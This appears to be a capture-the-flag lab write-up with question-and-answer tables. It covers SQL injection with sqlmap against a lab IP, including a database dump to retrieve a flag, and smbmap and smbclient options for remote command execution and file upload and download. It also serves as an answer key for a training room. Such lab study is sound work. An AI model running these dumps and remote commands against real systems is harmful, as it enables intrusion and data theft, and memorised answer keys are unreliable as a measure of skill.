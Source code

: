 
# Vulnerable Web Application 

scanning with sqlmap 
```
sqlmap -u http://10.10.81.49/index.php?msg=hello --all |tee sqlmap_scan.txt

```
showing the flag 
```
sqlmap -u http://10.10.81.49/index.php?msg=h -D tests --dump

```
| Questions | Answers |
|-----------|---------|
| How many types of sqli is the site vulnerable to ? | 3 |
| What is the name of the database ? | tests |
| How many tables are in the database ? | 2 | 
| What is the value of the flag? | found_me |

# Samba smbmap

| Questions | Answers |
|-----------|---------|
| How do you set up the username to authenticate with? | -u |
| What about the password ? | -p |
| How do you set up the host? | -H |
| What flag runs a command on teh server(assuming you have permissions that is) ? | -x |
| How do you specifu the share to enumerate? | -s |
| How do you set which domain to enumerate? | -d |
| What flag downloads a file ? | --download |
| What about uploading one ? | --upload |
| Given the username "admin", the password "password", and the ip "10.10.10.10, how would run ipconfig on that machine ? | smbmap -u "admin" -p "password" -H 10.10.10.10 -x ipconfig |

# Samba smbclient

| Questions | Answers |
|-----------|---------|
| How do you specify which domain(workgroup) to use when connecting to the host ? | -w |
| How do you specify the ip address of the host? | -I |
| How do you run the command "ipconfig" on the target machine? | -c "ipconfig" |
| How do you specify the username to authenticate with? | -U |
| How do you specify the password to authenticate with? | -P |
| What flag is set to tell smbclient to not use a password ? | -N |
| Whle in the interactive prompt, how would you downlad the file test, assuming it was in the current directory? | get test |
| In the interactive prompt, how would you upload your /etc/hosts file | put /etc/hosts |
